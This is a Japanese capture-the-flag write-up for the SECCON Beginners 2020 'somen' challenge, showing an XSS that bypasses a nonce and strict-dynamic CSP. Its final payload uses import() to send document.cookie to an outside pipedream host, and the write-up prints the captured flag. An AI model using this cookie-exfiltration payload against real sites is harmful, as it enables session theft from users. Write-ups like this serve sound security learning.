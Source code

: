 # SECCON Beginners CTF 2020 "somen" writeup

## 問題

```
Somen is tasty.

https://somen.quals.beginners.seccon.jp
```

## 解法

CSP nocnce + strict-dynamic の XSS 問題

### 問題の設定

- http header にて CSP が設定されている

```
Content-Security-Policy: default-src 'none'; script-src 'nonce-eiiCiTQ9UAZxTQqdJ7s/9dc/BGA=' 'strict-dynamic' 'sha256-nus+LGcHkEgf6BITG7CKrSgUIb1qMexlF8e5Iwx1L2A='
```

- title タグにエスケープ無しで任意コードの挿入が可能

```
<title>Best somen for <?= isset($_GET["username"]) ? $_GET["username"] : "You" ?></title>
```

- html にて id="message" に任意コードの挿入が可能なインラインスクリプト

```
<script nonce="eiiCiTQ9UAZxTQqdJ7s/9dc/BGA=">
    const choice = l => l[Math.floor(Math.random() * l.length)];

    window.onload = () => {
        const username = new URL(location).searchParams.get("username");
        const adjective = choice(["Nagashi", "Hiyashi"]);
        if (username !== null)
            document.getElementById("message").innerHTML = `${username}, I recommend ${adjective} somen for you.`;
    }
</script>
```

- security.js

username パラメータをアルファベットと数字のみに制限

```
console.log('!! security.js !!');
const username = new URL(location).searchParams.get("username");
if (username !== null && ! /^[a-zA-Z0-9]*$/.test(username)) {
    document.location = "/error.php";
}
```

### Step 1. security.js の無効化

[Content Security Policy Level 3 における XSS 対策 - pixiv inside](https://inside.pixiv.blog/kobo/5137) に記載の Content exfiltration / Scriptless attack を使います

```
/?username=</title>aaa<img src="https://xxx.x.pipedream.net/?x=
```

とすることで img タグの終了部分が security.js の`</script>`までとなり security.js を無効化することができます

### Step 2. script id="message" による CSP バイパス

CSPの設定により、

- nonce が付与されているインラインスクリプト

- ハッシュ値が`sha256-nus+LGcHkEgf6BITG7CKrSgUIb1qMexlF8e5Iwx1L2A=`となっているJavascript

しか実行できないようになっていますが、`strict-dynamic`が設定されていることにより「すでに信頼されているJavascriptが生成したJavascriptコード」は実行されます

よって CSP nonceによって実行が許可されている

```
document.getElementById("message").innerHTML = `${username}, I recommend ${adjective} somen for you.`;
```

このインラインスクリプトによって生成されるJavascriptは実行されます

このコードはid="message"となっているタグの中身を書き換えるものであるので`<script id="message">`を事前に挿入しておき、innerHTMLによって`<script id="message">`内でJavascriptを展開して実行することができます

また`<script id="message">`内でJavascriptが展開された時に邪魔になるコードをコメントアウトすると

```
/?username=alert(1)//</title><script id="message"></script><img src="https://xxx.x.pipedream.net/?x=
```

これで`alert(1)`が実行されることになります

### Step 3. cookieの窃取

先程できたコードにdocument.cookieを窃取するコードを追加すると

```
/?username=import(`//xxx.x.pipedream.net/?${document.cookie}`)//</title><script id="message"></script><img src="https://xxx.x.pipedream.net/?x=
```

これをクローラーに提出すると

```
https://xxx.x.pipedream.net/?flag=ctf4b{1_w0uld_l1k3_70_347_50m3n_b3f0r3_7ry1n6_70_3xpl017}
```

フラグを含んだリクエストが飛んできます

```
ctf4b{1_w0uld_l1k3_70_347_50m3n_b3f0r3_7ry1n6_70_3xpl017}
```
